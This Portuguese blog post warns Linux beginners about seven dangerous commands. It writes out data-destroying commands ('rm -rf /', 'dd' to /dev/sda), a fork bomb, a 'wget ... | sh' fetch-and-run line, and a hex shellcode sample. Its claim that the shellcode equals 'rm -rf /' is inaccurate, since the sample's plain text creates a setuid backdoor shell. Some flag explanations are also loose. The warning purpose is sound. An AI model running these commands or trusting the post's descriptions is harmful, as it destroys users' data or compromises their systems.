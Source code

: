 ```yaml
---
title: "7 Comandos perigosos"
author: "Nilsonlinux"
output:
 html_document:
   toc: true
   keep_md: yes
categories: Terminal Linux
layout: post
featured_image: /images/linux/7-comandos-danger.png
---
```




## 7 comandos perigosos do Linux que você NUNCA deve executar  ##

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador. 

Como o número de usuários leigos de Linux vem aumentando com o tempo, acho pertinente alertar as pessoas sobre alguns comandos que podem ser perigosos, tanto para o sistema, quanto para os dados contidos no computador.

O terminal é uma ferramenta muito poderosa, por conta disso é bom você dominá-lo, ou pelo menos entendê-lo, para evitar problemas no seu sistema baseado em Linux.
 Os grandes problemas que você pode enfrentar usando o terminal de forma indiscriminada normalmente estão atrelados a comandos de sobrescrita de dados, então vamos mostrar alguns aqui que você deve prestar especial atenção quando vir alguém sugerindo que você faça no seu computador com Linux.

Atenção: Você NÃO deve executar nenhum destes comandos no seu computador, isso pode causar danos irreversíveis que nós não nos responsabilizamos, o artigo tem a intenção de ser instrutivo, justamente para evitar este tipo de situação.

1 - ```rm -rf```  

É um comando clássico do do Linux que teoricamente não faz nada de mais, ele serve apenas para apagar arquivos, e é aí que mora o perigo. Dependendo da forma que ele for aplicativo o resultado pode ser muito desagradável, por isso é importante você entender o que os comandos fazem, vamos explicar um pouco melhor neste exemplo:
- rm: comando usado no Linux para deletar arquivos.
- rm -r: o comando deleta pastas recursivamente, mesmo que a pastas esteja vazia.
- rm -f: cUsando este parâmetro, o propriedade de "apenas leitura" que um arquivo tenha é removida sem perguntar, permitindo que o arquivo seja apagado.
- rm -rf / : Usando a combinação dos dois parâmetros com a "/" você diz para o sistema apagar tudo que está no diretório raiz do sistema.
- rm -rf * : Força o apagamento de tudo que está no diretório atual ou no de trabalho, dependendo de onde você estiver.
- rm -rf . : Acrescentando um ponto, você pode apagar também as pastas ocultas, além das normais.

Tome muito cuidado ao executar um comando destes, especialmente se for feito como root ou usando o sudo.

 Tão perigoso que pode ser este comando, que atualmente o Linux se protege contra ele, se você rodá-lo, mesmo com sudo ou como root, ele não vai funcionar, para isso é preciso usar os parâmetros descritos na imagem acima. Da mesma forma que o Linux protege você de destruir o sistema sem querer, ele também permite que você o destrua mediante a ter certeza de que é realmente isso que você quer, curioso, não é?

2 - ```:(){:|:&};:```  

Este comando funciona como uma "Fork Bomb", ele opera definindo uma função chamada ':', que se chama duas vezes, uma vez em primeiro plano e outra em segundo plano, o processo se repete indefinidamente até que o sistema trave.

3 - qualquer comando para > /dev/sda

A forma com que o Linux lê as partições e discos é diferente do Windows, por conta disso, normalmente novatos não conseguem entender em primeira instância como eles são distribuídos. Normalmente a localização dos dispositivos de armazenamento do sistema ficam dentro de /dev, sendo que podem haver vários por ali e normalmente o sda está presente.

O problema do comando acima é que ele redireciona a saída de qualquer comando que seja colocado para o seu bloco de armazenamento, desta foma sobrescrevendo alguns dados e corrompendo outros.

4 - ```mv pasta/diretório /dev/null```  

Eu costumava brincar sobre o /dev/null me referindo a ele como o "buraco negro" do Linux. Tudo que é enviado para ele é perdido "para sempre". Então tome cuidado ao mover qualquer coisa para esta localização. O comando mv serve para mover arquivos ou diretórios para o destino indicado, se este destino for o /dev/null você estará mandando seus arquivos pra Nárnia.

5 - ```wget http://malicious_source -O- | sh```  

Este comando vai aparecer para você instalar alguns programas. O wget é o programa responsável por fazer o download da URL que vem logo após, ele é bem útil para baixar arquivos em geral, o problema está no arquivo que ele baixa e na sequência do comando  que o executa no caso dele ser um shell script. Só baixe arquivos desta forma de fontes que você considera confiáveis e se estiver na dúvida, baixe apenas o arquivo de shell, eliminando qualquer parâmetro que apareça após o link, assim você pode abrir ele em um editor de texto de sua preferência e verificar o que há dentro dele.

6 - ```dd if=/dev/random of=/dev/sda```  

Assim como o ítem 3 da nossa lista, o grande problema aqui é o destino ser o /dev/sda. Tome cuidado. O comando dd pode ser muito útil para copiar arquivos e até mesmo partições inteiras, como no exemplo 6, mas se a saída for um outro disco, tome cuidado, pois o resultado irá sobrepor os dados lá existentes.

7 - Comandos disfarçados

Como eu comentei à princípio, o terminal é uma ferramenta poderosa, se você não dominá-lo, é bom ter cuidado com que você for rodar nele, se o você não fala a língua do terminal, saiba que ele fala muitas outras. O comando abaixo nada mais é do que o comando indicado no primeiro item da nossa lista, só que em forma hexadecimal.

    char esp[] __attribute__ ((section(“.text”))) /* e.s.p release */ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″ “\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″ “\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″ “\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″ “\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″ “\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″ “\x6e\x2f\x73\x68\x00\x2d\x63\x00″ “cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;


Ele tem o mesmo propósito do famigerado "rm -rf /", por isso, não rode coisas no terminal que você não sabe para quem servem, existem muito conteúdo grátis a internet para você estudar sobre e até mesmo alguns bons cursos pagos, como é o caso do "Dominando o Terminal" aqui do blog mesmo, mas em linhas gerais, se você evitar colocar comandos que você não sabe para que servem direito, os problemas já serão minimizados. 

Agora espalhe este conhecimento para ajudar mais pessoas a ficarem precavidas sobre estes pequenos percalços da vida computacional.

Fonte; https://www.diolinux.com.br/2017/01/7-comandos-mais-perigosos-linux.html